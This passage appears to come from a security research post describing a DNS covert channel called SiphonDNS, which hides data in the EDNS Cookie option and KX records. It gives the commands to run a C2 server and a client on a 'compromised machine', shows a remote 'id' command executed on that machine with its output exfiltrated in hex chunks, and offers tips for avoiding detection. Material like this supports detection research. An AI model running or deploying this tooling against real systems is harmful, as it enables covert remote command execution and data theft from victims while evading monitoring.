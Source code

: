 #### Cookie

This is another EDNS option introduced in RFC 7873, which is supposed to protect from a bunch of threats, but what's important for us is that we can store up to 32 bytes in this thing and we don't even need any fancy encoding since cookie has to be in hex.

So the encoder is very simple here:

![cookie-encoding]({{ page.images_path }}/7.png)

The protocol is basically identical to the ECS technique, but again, since the request type doesn't matter, we are going to use KX (RFC 2230). Our cache miss marker will be the Exchanger field of the KX Answer:

![cookie-protocol]({{ page.images_path }}/8.png)

This is how you do that with SiphonDNS:

* Run the SiphonDNS server on your NS server

```sh
$ ./siphondns-server -method cookie
```

* Then run the SiphonDNS client on the compromised machine

```sh
$ ./siphondns-client -domain 'github.com' -method cookie -resolver 1.2.3.4:53
```

Notice that you have to set the resolver to the IP of the C2 server. Also, you can use any domain, which might help avoid some detections.

* Now, on the server side, issue a command and observe results on both sides

Server-side:
```sh
cmd> id
Command received
Receiving data.............

Response:
 uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),118(wireshark),121(bluetooth),134(scanner),141(kaboxer)
```

Client-side:
```sh
Polling...........OK
Executing command: id ... OK
Sending: 13371337133713371337133713371337 ... OK
Sending: 789c5ccb314e04310c85e19e5350da92 ... OK
Sending: 8b381b1628384c766d66a209e3288907 ... OK
Sending: b83d1ad120baf73ee9f7226f1c42802d ... OK
Sending: d7828fcbbfdbcddbf8239420cb07520c ... OK
Sending: 202557f3891413dca5dba94ff05eadb5 ... OK
Sending: 6fa4f80cc3c590e22b6497624897b369 ... OK
Sending: 4829c151440d295da1555f440f240e01 ... OK
Sending: 7c681fe7bcc2aef397f9053e4bd7b1e6 ... OK
Sending: be217164b855d769365724be2418f7bc ... OK
Sending: efda9138316cf9665fdaf1e1270000ff ... OK
Sending: ff7cf64193 ... OK
Sending: 73317331733173317331733173317331 ... OK
Done in 13 requests.
```
